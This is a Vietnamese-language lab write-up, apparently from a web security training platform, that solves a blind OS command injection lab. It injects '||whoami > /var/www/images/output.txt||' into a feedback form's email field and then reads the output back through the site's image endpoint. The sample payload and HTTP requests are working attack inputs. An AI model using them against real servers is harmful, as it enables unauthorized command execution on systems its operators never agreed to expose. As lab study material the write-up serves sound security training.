




# Lab 03: Blind Command Injection with Output Redirection

## Mục tiêu
Khai thác blind command injection trong form feedback và lấy kết quả lệnh `whoami` bằng cách ghi output ra file.

## Đề bài

<br><br>

## Bước 1: Xác định điểm injection
Điểm nhập liệu nằm ở chức năng `Submit feedback`.


<br><br>

## Bước 2: Chèn payload ghi output ra thư mục web
Bắt request `POST /feedback/submit` bằng Burp Repeater, sau đó chèn payload vào trường `email`:

```txt
ahihi@aihi.com||whoami > /var/www/images/output.txt||
```

Request body mẫu:

```http
csrf=<token>&name=ahihi&email=ahihi@aihi.com||whoami > /var/www/images/output.txt||&subject=ahihi&message=ahihi
```

Ý tưởng: đây là blind injection nên response không trả trực tiếp output lệnh. Ta dùng `>` để redirect output vào file trong `/var/www/images/` (thư mục có thể truy cập qua URL ảnh).


<br><br>

## Bước 3: Đọc output qua endpoint ảnh
Truy cập file vừa ghi:

```http
GET /image?filename=output.txt
```


<br><br>

## Kết quả
Đã giải quyết lab bằng payload redirect output `whoami` vào `/var/www/images/output.txt` rồi đọc lại qua `/image?filename=output.txt`.
